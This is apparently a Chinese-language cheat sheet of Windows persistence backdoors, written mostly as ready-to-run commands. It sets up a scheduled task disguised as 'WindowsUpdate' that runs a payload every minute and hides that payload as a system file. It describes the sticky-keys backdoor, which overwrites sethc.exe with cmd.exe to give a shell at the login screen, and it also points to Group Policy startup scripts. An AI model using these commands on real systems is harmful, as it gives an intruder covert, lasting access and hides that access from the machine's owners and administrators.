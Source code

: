 通过计划任务周期执行后门程序

1. 上传后门程序

2. 创建计划任务
    ```
    schtasks /create /tn WindowsUpdate /tr "C:\Windows\Temp\payload.exe" /sc minute /mo 1
    ```

3. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

- 删除计划任务
    ```
    schtasks /delete /tn WindowsUpdate
    ```

**shift 后门**

在 windows 登录界面处，连续按5次 shift 来启动粘滞键，启动 sethc 程序

1. 拷贝文件
    ```
    copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
    copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe
    ```

2. 隐藏文件
    ```
    attrib C:\Windows\System32\sethc.exe +h +s
    attrib C:\Windows\System32\dllcache\sethc.exe +h +s
    ```

**LGP 后门**

开始->运行->键入"gpedit.msc"->本地组策略编辑器->window设置(system)->脚本->启动->属性
